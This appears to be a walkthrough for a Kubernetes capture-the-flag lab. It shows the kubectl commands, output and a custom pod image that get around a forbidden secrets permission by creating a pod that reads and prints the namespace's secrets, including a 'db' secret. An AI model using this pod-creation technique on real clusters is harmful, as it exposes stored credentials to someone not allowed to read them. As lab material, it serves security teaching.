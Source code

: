 # First K8S CTF - Walktrough

## Easy challenge
list namespaces:  
```bash
kubectl get ns

NAME              STATUS   AGE
default           Active   7m40s
easy              Active   7m35s
kube-node-lease   Active   7m41s
kube-public       Active   7m41s
kube-system       Active   7m42s
medium            Active   7m35s
```  

You can see two interesting namespaces: `easy` and `medium`.  
We will start from the easy one.  

List the secrets in the *easy* namespace:  
```bash
kubectl -n easy get secrets

NAME                 TYPE     DATA   AGE
definitelynotaflag   Opaque   1      10m
flag                 Opaque   1      10m
```  

Retrieve the `flag` secret:  
```bash
kubectl get secret flag -n easy -o=jsonpath='{.data.flag}' | base64 --decode

this is not the flag!
```  

We are not lucky, let's try with the other secret:  
```bash
kubectl get secret definitelynotaflag -n easy -o=jsonpath='{.data.flag}' | base64 --decode

CTF{easy-flag-XWgkxvenoWWwj1AY}
```  
Congrats! you solved the easy challenge!  
Too easy you say?  
Don't worry, things are gonna get harder from here 😈  

## Medium challenge

List the secrets in the *medium* namespace:  
```bash
kubectl -n medium get secrets

NAME   TYPE     DATA   AGE
db     Opaque   1      17m
flag   Opaque   1      17m
```  
Retrieve the `flag` secret:  
```bash
kubectl get secret flag -n medium -o=jsonpath='{.data.flag}' | base64 --decode

Error from server (Forbidden): secrets "flag" is forbidden: User "ctf1" cannot get resource "secrets" in API group "" in the namespace "medium"
```  

It seems that we are not allowed to retrieve secrets in this namespace...let's confirm this:  
```bash
kubectl auth can-i get secrets --namespace=medium

no
```  
What a shame!  
Let's try to get all the resources we can in the *medium* namespace:  
```bash
kubectl -n medium get all

NAME                                 READY   STATUS             RESTARTS        AGE
busybox-deployment-6986fcbcb-5fp6n   0/1     CrashLoopBackOff   9 (2m15s ago)   23m
busybox-deployment-6986fcbcb-8rtx5   0/1     CrashLoopBackOff   9 (2m21s ago)   23m
nginx-deployment-6b7f675859-d4nlh    1/1     Running            0               23m
nginx-deployment-6b7f675859-gpqk2    1/1     Running            0               23m
Error from server (Forbidden): replicationcontrollers is forbidden: User "ctf1" cannot list resource "replicationcontrollers" in API group "" in the namespace "medium"
Error from server (Forbidden): services is forbidden: User "ctf1" cannot list resource "services" in API group "" in the namespace "medium"
Error from server (Forbidden): daemonsets.apps is forbidden: User "ctf1" cannot list resource "daemonsets" in API group "apps" in the namespace "medium"
Error from server (Forbidden): deployments.apps is forbidden: User "ctf1" cannot list resource "deployments" in API group "apps" in the namespace "medium"
Error from server (Forbidden): replicasets.apps is forbidden: User "ctf1" cannot list resource "replicasets" in API group "apps" in the namespace "medium"
Error from server (Forbidden): statefulsets.apps is forbidden: User "ctf1" cannot list resource "statefulsets" in API group "apps" in the namespace "medium"
Error from server (Forbidden): horizontalpodautoscalers.autoscaling is forbidden: User "ctf1" cannot list resource "horizontalpodautoscalers" in API group "autoscaling" in the namespace "medium"
Error from server (Forbidden): cronjobs.batch is forbidden: User "ctf1" cannot list resource "cronjobs" in API group "batch" in the namespace "medium"
Error from server (Forbidden): jobs.batch is forbidden: User "ctf1" cannot list resource "jobs" in API group "batch" in the namespace "medium"
```  
It seems that we are able to retrieve the list of pods in this namespace.  

`hint`: try to play around with **kubectl auth can-i** in order to understand what you can do in this namespace.  

After a while, you will discover that you are able to create pods in the *medium* namespace:  
```bash
kubectl auth can-i create pods --namespace=medium

yes
```  

At this point you can attempt to read the secrets from a pod deployed to the *medium* namespace.  
Proceed as follow:  
1. Create the following dockerfile  

```dockerfile
FROM alpine:latest
RUN apk --no-cache add curl
RUN curl -LO https://storage.googleapis.com/kubernetes-release/release/$(curl -s https://storage.googleapis.com/kubernetes-release/release/stable.txt)/bin/linux/amd64/kubectl && \
    chmod +x ./kubectl && \
    mv ./kubectl /usr/local/bin/kubectl

# Set the entrypoint script
COPY entrypoint.sh /entrypoint.sh
RUN chmod +x /entrypoint.sh
ENTRYPOINT ["/entrypoint.sh"]
```  
2. Create the following `entrypoint.sh` file  
```bash
#!/bin/sh

# Read and decode the 'flag' secret
flag_secret=$(kubectl get secret flag -n medium -o=jsonpath='{.data.flag}')
decoded_flag=$(echo "$flag_secret" | base64 -d)

# Read and decode the 'db' secret
db_secret=$(kubectl get secret db -n medium -o=jsonpath='{.data.flag}')
decoded_db=$(echo "$db_secret" | base64 -d)

# Output the decoded secrets
echo "Flag Secret: $decoded_flag"
echo "DB Secret: $decoded_db"
```  

3. Build and push the docker image (you can use a free and disposable public registry like [*ttl.sh*](https://ttl.sh/))
```bash
docker build -t ttl.sh/ctf1:latest . && docker push ttl.sh/ctf1:latest
```  
4. Deploy a pod with that image:  
```bash
kubectl apply -f - <<EOF
apiVersion: v1
kind: Pod
metadata:
  name: ctf1-pod
  namespace: medium
spec:
  containers:
  - name: k8sctf1-container
    image: ttl.sh/ctf1:latest
EOF
```  
5. retrieve the list of running podss
```bash
Kubectl -n medium get pods

NAME                                READY   STATUS             RESTARTS        AGE
ctf1-pod                            0/1     Completed          0               1m12s
nginx-deployment-6b7f675859-4pkpk   1/1     Running            0               11m
nginx-deployment-6b7f675859-kvb9c   1/1     Running            0               11m
```  
6. retrieve the logs for that pod
```bash
kubectl -n medium logs ctf1-pod

Flag Secret: this is not the flag!
DB Secret: CTF{medium-flag-zPBBTUPD2mXuZZU3}
```  

Congrats, you pawned the second challenge!  🥳 🎉




